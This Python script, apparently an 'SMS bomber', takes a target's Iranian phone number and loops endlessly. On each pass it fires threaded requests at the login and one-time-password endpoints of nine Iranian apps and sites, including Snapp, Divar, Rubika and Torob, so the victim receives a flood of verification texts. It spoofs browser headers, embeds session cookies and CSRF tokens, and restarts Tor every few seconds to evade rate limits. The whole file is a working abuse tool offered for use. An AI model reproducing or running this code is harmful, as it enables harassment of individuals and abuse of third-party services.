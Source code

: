 #Mr Baji
import os
import time
import requests
from threading import Thread

proxy = {"https": "127.0.0.1:8000"}

def snap(phone):
    #snap api
    snapH = {"Host": "app.snapp.taxi", "content-length": "29", "x-app-name": "passenger-pwa", "x-app-version": "5.0.0", "app-version": "pwa", "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36", "content-type": "application/json", "accept": "*/*", "origin": "https://app.snapp.taxi", "sec-fetch-site": "same-origin", "sec-fetch-mode": "cors", "sec-fetch-dest": "empty", "referer": "https://app.snapp.taxi/login/?redirect_to\u003d%2F", "accept-encoding": "gzip, deflate, br", "accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6", "cookie": "_gat\u003d1"}
    snapD = {"cellphone":phone}
    try:
        snapR = requests.post("https://app.snapp.taxi/api/api-passenger-oauth/v2/otp", headers=snapH, json=snapD, proxies=proxy)
        if "OK" in snapR.text:
            print ("sended sms:)")
        else:
            print ("Error!")
    except:
        print ("Error!")

def shad(phone):
    #shad api
    shadH = {"Host": "shadmessenger12.iranlms.ir","content-length": "96","accept": "application/json, text/plain, */*","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "text/plain","origin": "https://shadweb.iranlms.ir","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://shadweb.iranlms.ir/","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    shadD = {"api_version":"3","method":"sendCode","data":{"phone_number":phone.split("+")[1],"send_type":"SMS"}}
    try:
        shadR = requests.post("https://shadmessenger12.iranlms.ir/", headers=shadH, json=shadD, proxies=proxy)
        if "OK" in shadR.text:
            print ("sended sms:)")
        else:
            print ("Error!")
    except:
        print ("Error!")

def gap(phone):
    #gap api
    gapH = {"Host": "core.gap.im","accept": "application/json, text/plain, */*","x-version": "4.5.7","accept-language": "fa","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","appversion": "web","origin": "https://web.gap.im","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://web.gap.im/","accept-encoding": "gzip, deflate, br"}
    try:
        gapR = requests.get("https://core.gap.im/v1/user/add.json?mobile=%2B{}".format(phone.split("+")[1]), headers=gapH, proxies=proxy)
        if "OK" in gapR.text:
            print ("sended sms:)")
        else:
            print ("Error!")
    except:
        print ("Error!")

def tap30(phone):
    #tap30 api
    tap30H = {"Host": "tap33.me","Connection": "keep-alive","Content-Length": "63","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "application/json","Accept": "*/*","Origin": "https://app.tapsi.cab","Sec-Fetch-Site": "cross-site","Sec-Fetch-Mode": "cors","Sec-Fetch-Dest": "empty","Referer": "https://app.tapsi.cab/","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    tap30D = {"credential":{"phoneNumber":"0"+phone.split("+98")[1],"role":"PASSENGER"}}
    try:
        tap30R = requests.post("https://tap33.me/api/v2/user", headers=tap30H, json=tap30D, proxies=proxy)
        if "OK" in tap30R.text:
            print ("sended sms:)")
        else:
            print ("Error!")
    except:
            print ("Error!")

def emtiaz(phone):
    #emtiaz api
    emH = {"Host": "web.emtiyaz.app","Connection": "keep-alive","Content-Length": "28","Cache-Control": "max-age\u003d0","Upgrade-Insecure-Requests": "1","Origin": "https://web.emtiyaz.app","Content-Type": "application/x-www-form-urlencoded","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","Accept": "text/html,application/xhtml+xml,application/xml;q\u003d0.9,image/webp,image/apng,*/*;q\u003d0.8,application/signed-exchange;v\u003db3;q\u003d0.9","Sec-Fetch-Site": "same-origin","Sec-Fetch-Mode": "navigate","Sec-Fetch-User": "?1","Sec-Fetch-Dest": "document","Referer": "https://web.emtiyaz.app/login","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6","Cookie": "__cfduid\u003dd3744e2448268f90a1ea5a4016884f7331596404726; __auc\u003dd86ede5a173b122fb752f98d012; _ga\u003dGA1.2.719537155.1596404727; __asc\u003d7857da15173c7c2e3123fd4c586; _gid\u003dGA1.2.941061447.1596784306; _gat_gtag_UA_124185794_1\u003d1"}
    emD = "send=1&cellphone=0"+phone.split("+98")[1]
    try:
        emR = requests.post("https://web.emtiyaz.app/json/login", headers=emH, data=emD, proxies=proxy)
        print ("sended sms:)")
    except:
        print ("Error!")

def divar(phone):
    #divar api
    divarH = {"Host": "api.divar.ir","Connection": "keep-alive","Content-Length": "22","Accept": "application/json, text/plain, */*","User-Agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded","Origin": "https://divar.ir","Sec-Fetch-Site": "same-site","Sec-Fetch-Mode": "cors","Sec-Fetch-Dest": "empty","Referer": "https://divar.ir/my-divar/my-posts","Accept-Encoding": "gzip, deflate, br","Accept-Language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    divarD = {"phone":phone.split("+98")[1]}
    try:
        divarR = requests.post("https://api.divar.ir/v5/auth/authenticate", headers=divarH, json=divarD, proxies=proxy)
        if "SENT" in divarR.text:
            print ("sended sms:)")
        else:
            print ("Error!")
    except:
        print ("Error!")

def rubika(phone):
    #rubika api
    ruH = {"Host": "messengerg2c4.iranlms.ir","content-length": "96","accept": "application/json, text/plain, */*","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","content-type": "text/plain","origin": "https://web.rubika.ir","sec-fetch-site": "cross-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://web.rubika.ir/","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6"}
    ruD = {"api_version":"3","method":"sendCode","data":{"phone_number":phone.split("+")[1],"send_type":"SMS"}}
    try:
        ruR = requests.post("https://messengerg2c4.iranlms.ir/", headers=ruH, json=ruD, proxies=proxy)
        if "OK" in ruR.text:
            print ("sended sms:)")
        else:
            print ("Error!")
    except:
        print ("Error!")

def torob(phone):
    #torob api
    torobH = {"Host": "api.torob.com","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","accept": "*/*","origin": "https://torob.com","sec-fetch-site": "same-site","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://torob.com/user/","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6","cookie": "amplitude_id_95d1eb61107c6d4a0a5c555e4ee4bfbbtorob.com\u003deyJkZXZpY2VJZCI6ImFiOGNiOTUyLTk1MTgtNDhhNS1iNmRjLTkwZjgxZTFjYmM3ZVIiLCJ1c2VySWQiOm51bGwsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTU5Njg2OTI4ODM1MSwibGFzdEV2ZW50VGltZSI6MTU5Njg2OTI4ODM3NCwiZXZlbnRJZCI6MSwiaWRlbnRpZnlJZCI6Miwic2VxdWVuY2VOdW1iZXIiOjN9"}
    try:
        torobR = requests.get("https://api.torob.com/a/phone/send-pin/?phone_number=0"+phone.split("+98")[1], headers=torobH, proxies=proxy)
        if "sent" in torobR.text:
            print ("sended sms:)")
        else:
            print ("Error!")
    except:
        print ("Error!")

def bama(phone):
    #bama api
    bamaH = {"Host": "bama.ir","content-length": "22","accept": "application/json, text/javascript, */*; q\u003d0.01","x-requested-with": "XMLHttpRequest","user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36","csrf-token-bama-header": "CfDJ8N00ikLDmFVBoTe5ae5U4a2G6aNtBFk_sA0DBuQq8RmtGVSLQEq3CXeJmb0ervkK5xY2355oMxH2UDv5oU05FCu56FVkLdgE6RbDs1ojMo90XlbiGYT9XaIKz7YkZg-8vJSuc7f3PR3VKjvuu1fEIOE","content-type": "application/x-www-form-urlencoded; charset\u003dUTF-8","origin": "https://bama.ir","sec-fetch-site": "same-origin","sec-fetch-mode": "cors","sec-fetch-dest": "empty","referer": "https://bama.ir/Signin?ReturnUrl\u003d%2Fprofile","accept-encoding": "gzip, deflate, br","accept-language": "fa-IR,fa;q\u003d0.9,en-GB;q\u003d0.8,en;q\u003d0.7,en-US;q\u003d0.6","cookie": "CSRF-TOKEN-BAMA-COOKIE\u003dCfDJ8N00ikLDmFVBoTe5ae5U4a1o5aOrFp-FIHLs7P3VvLI7yo6xSdyY3sJ5GByfUKfTPuEgfioiGxRQo4G4JzBin1ky5-fvZ1uKkrb_IyaPXs1d0bloIEVe1VahdjTQNJpXQvFyt0tlZnSAZFs4eF3agKg"}
    bamaD = "cellNumber=0"+phone.split("+98")[1]
    try:
        bamaR = requests.post("https://bama.ir/signin-checkforcellnumber", headers=bamaH, data=bamaD, proxies=proxy)
        if "0" in bamaR.text:
            print ("sended sms:)")
        else:
            print ("Error!")
    except:
        print ("Error!")

def main():
    phone = str(input("Made by baji inter phone number (+98xxxxxxx): "))
    while True:
        Thread(target=snap, args=[phone]).start()
        Thread(target=shad, args=[phone]).start()
        Thread(target=gap, args=[phone]).start()
        Thread(target=tap30, args=[phone]).start()
        Thread(target=emtiaz, args=[phone]).start()
        Thread(target=divar, args=[phone]).start()
        Thread(target=rubika, args=[phone]).start()
        Thread(target=torob, args=[phone]).start()
        Thread(target=bama, args=[phone]).start()
        os.system("killall -HUP tor")
        time.sleep(3)


if __name__ == "__main__":
    main()
